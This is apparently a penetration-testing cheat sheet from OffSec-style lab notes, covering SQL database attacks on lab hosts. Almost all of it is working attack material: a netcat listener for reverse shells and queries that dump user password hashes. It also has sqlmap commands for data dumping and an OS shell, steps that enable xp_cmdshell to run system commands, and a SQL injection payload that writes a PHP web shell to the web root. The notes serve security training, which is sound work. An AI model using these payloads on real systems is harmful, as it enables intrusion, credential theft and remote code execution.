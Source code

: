 ```sh
nc -nvlp 4444
```

## MYSQL
```sql
mysql -u root -p'root' -h 192.168.50.16 -P 3306
select version();
select system_user();
show databases;
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```
## MSSQL

```sql
SELECT @@version;
SELECT name FROM sys.databases;
select * from offsec.dbo.users;
SELECT * FROM offsec.information_schema.tables;

impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```

## SQLMAP
```sh
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp" 
```
### Code Execution

```sql
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' 
changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 
0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';
output
--------------------------------------------------------------------------------------
--------------------------------------------------------------------------------------
-----------------------------------------------------------------------------------
nt service\mssql$sqlexpress
NULL
```
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
